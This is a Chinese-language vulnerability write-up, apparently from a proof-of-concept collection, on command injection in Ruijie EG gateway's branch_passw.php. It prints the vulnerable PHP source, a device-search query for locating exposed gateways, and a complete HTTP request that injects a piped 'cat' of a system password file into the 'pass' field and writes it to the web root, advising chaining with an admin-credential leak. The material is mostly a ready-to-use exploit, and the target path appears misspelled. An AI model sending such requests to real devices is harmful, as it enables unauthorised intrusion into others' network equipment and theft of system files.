

# 锐捷 EG易网关 branch_passw.php 远程命令执行

## 漏洞描述

锐捷EG易网关 branch_passw.php存在命令执行漏洞，配合 锐捷EG易网关 管理员账号密码泄露漏洞 达到RCE控制服务器

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)

漏洞文件 branch_passw.php

```php
<?php

/**
 * 分支密码的统一管理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);  //定义系统目录分隔符
define('AROOT', dirname(__FILE__) . DS);    //定义入口所在的目录
include_once(dirname(dirname(__FILE__)) . DS . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    private $filename;
    private $cli = "evpn-server config all-clients file \"/data/evpn/cfg_pwd.text\"";

    function __construct() {
        parent::__construct();
        $this->filename = DS . "data" . DS . "evpn" . DS . "cfg_pwd.text";
    }

    /**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
    
    /**
     * 关闭集中控制功能
     */
    function closeAction(){
        evpnShell("/usr/local/evpn/server/cfg_pass.sh disable");
    }

    /**
     * 获取分支密码
     */
    function getAction() {
        $command = "/usr/local/evpn/server/echo_pass.sh";
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => isset($content[0]) && $content[0] === "" ? "" : $content);
        json_echo($data);
    }
    
    /**
     * 获取分支密码设置列表
     */
    function listAction(){
        $province = p("province");
        $city = p("city");
        $district = p("district");
        $shell = "/usr/local/evpn/server/sh_clients_pass.sh";
        if($province !== FALSE && $province != ""){
            $shell .= " province ".iconv("UTF-8", "GB2312//IGNORE", $province);
        }
        if($city !== FALSE && $city != ""){
            $shell .= " city ".iconv("UTF-8", "GB2312//IGNORE", $city);
        }
        if($district !== FALSE && $district != ""){
            $shell .= " district ".iconv("UTF-8", "GB2312//IGNORE", $district);
        }
        header("Content-type: text/html;charset=gbk");
        header("Cache-Control: no-cache, must-revalidate");
        header("Pragma: no-cache");
        echo `$shell`;
    }

}

include_once dirname(dirname(__FILE__)) . '/init.php';     //mvc架构初始化
```


其中漏洞部分


```php
/**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
```


`&pass`变量可控并且无过滤执行命令使用 `|` 即可绕过


发送请求包


```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```


再访问


```plain
http://xxx.xxx.xxx.xxx/test_test.txt
```





## 